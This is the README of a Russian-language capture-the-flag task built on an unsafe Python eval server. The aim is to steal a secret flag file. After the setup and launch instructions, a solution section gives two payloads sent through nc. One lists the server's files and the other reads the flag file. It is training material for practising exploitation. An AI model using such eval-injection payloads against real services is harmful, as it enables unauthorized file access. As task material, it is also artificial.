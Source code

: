 Python eval
===========

> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные.
Заполучите их!  

Файлы
-----
1. **eval.py** - Исходный код
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Псевдо исходный код, который доступен участникам

Запуск
------
```
python3 eval.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)

---

Решение
-------
1. получить список файлов в папе
```
echo "__import__('os').listdir()" | nc адрес порт
```
2. Прочесть флаг
```
echo "open('имя файла с флагом').read()" | nc адрес порт